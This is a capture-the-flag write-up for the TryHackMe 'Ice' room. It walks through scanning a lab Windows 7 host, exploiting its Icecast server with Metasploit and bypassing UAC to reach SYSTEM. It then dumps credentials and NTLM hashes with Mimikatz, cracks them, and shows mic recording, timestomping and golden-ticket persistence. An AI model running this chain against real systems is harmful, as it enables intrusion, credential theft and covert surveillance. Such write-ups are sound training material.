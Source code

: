 # Ice
![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Ice](https://tryhackme.com/room/ice)
>
> *Deploy & hack into a Windows machine, exploiting a very poorly secured media server.*
>
> ![](.gitbook/assets/ice.png)

🎯 Target IP: `10.10.159.9`

## Recon

```bash
mkdir ice
cd ice/
sudo nmap -sS -sV -Pn -p- 10.10.159.9
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  http         Icecast streaming media server
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:58:8C:89:6C:3D (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```




## Exploitation
```bash
msfconsole -q
setg RHOSTS 10.10.159.9
setg RHOST 10.10.159.9
search cve:2004-1561
use exploit/windows/http/icecast_header
run
```



### Local Enumeration

```bash
getuid
sysinfo
run post/multi/recon/local_exploit_suggester
```

```bash
Server username: Dark-PC\Dark

Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

1 exploit/windows/local/bypassuac_eventvwr         Yes The target appears to be v erable.
2 exploit/windows/local/ms10_092_schelevator       Yes The service is running, but could not be v dated.
3 exploit/windows/local/ms13_053_schlamperei       Yes The target appears to be v erable.
4 exploit/windows/local/ms13_081_track_popup_menu  Yes The target appears to be v erable.
5 exploit/windows/local/ms14_058_track_popup_menu  Yes The target appears to be v erable.
6 exploit/windows/local/ms15_051_client_copy_image Yes The target appears to be v erable.
7 exploit/windows/local/ntusermndragover           Yes The target appears to be v erable.
8 exploit/windows/local/ppr_flatten_rec            Yes The target appears to be v erable.
9 exploit/windows/local/tokenmagic                 Yes The target appears to be vulnerable.
```



## Privilege Escalation
```bash
background
sessions
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.10.55.230
set LPORT 4455
run

getprivs
```

```bash
Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```



## Post Exploitation

```bash
pgrep spool
migrate 1376 # poolsv PID
migrate -N spoolsv.exe
getuid 
	Server username: NT AUTHORITY\SYSTEM

# Mimikatz
load kiwi
creds_all
```

> 📌 `Dark`:`Password01!`
>

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- Cracking (extra)

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes_ice.txt
```

![](.gitbook/assets/image-20230510172241398.png)

```bash
screenshare
	file:///root/ipzHMhGp.html
record_mic
timestomp
golden_ticket_create # persistence
```

```bash
run post/windows/manage/enable_rdp
xfreerdp /u:Dark /p:Password01! /v:10.10.159.9
```

![](.gitbook/assets/image-20230510171923611.png)

------

